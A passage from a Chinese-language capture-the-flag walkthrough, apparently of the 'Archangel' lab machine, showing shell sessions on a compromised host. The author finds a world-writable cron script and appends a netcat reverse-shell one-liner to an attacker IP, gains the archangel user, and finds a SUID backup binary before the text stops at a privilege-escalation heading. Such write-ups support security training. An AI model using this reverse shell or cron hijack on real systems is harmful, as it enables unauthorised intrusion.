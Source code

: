 myfiles文件夹：

    www-data@ubuntu:/home/archangel$ ls -la ./myfiles
    ls -la ./myfiles
    total 12
    drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
    drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
    -rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbackup
    www-data@ubuntu:/home/archangel$ cat ./myfiles/passwordbackup
    cat ./myfiles/passwordbackup
    youtube/watch?v=dQw4w9WgXcQ

## 横向移动

    www-data@ubuntu:/home/archangel$ ls -la /opt
    ls -la /opt
    total 16
    drwxrwxrwx  3 root      root      4096 Nov 20  2020 .
    drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
    drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
    -rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh

查看helloworld.sh：

    cat ./helloworld.sh
    #!/bin/bash
    echo "hello world" >> /opt/backupfiles/helloworld.txt

接下来都不用看了，定时任务，并且我们还有权限修改该脚本文件，直接再次reverse shell移动到archangel用户

payload:

    echo "mkfifo /tmp/f1;nc 10.14.39.48 9999 < /tmp/f1 | /bin/bash > /tmp/f1" >> ./helloworld.sh

成功getshell

    Ncat: Connection from 10.10.221.93.
    Ncat: Connection from 10.10.221.93:39692.
    python3 -c "import pty;pty.spawn('/bin/bash')"
    archangel@ubuntu:~$ id
    id
    uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)

user2.txt: 现在我们有权访问secret文件夹了

    archangel@ubuntu:~$ cd ./secret
    cd ./secret
    archangel@ubuntu:~/secret$ ls -la
    ls -la
    total 32
    drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
    drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
    -rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
    -rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt

## 环境变量 - 纵向移动|权限提升
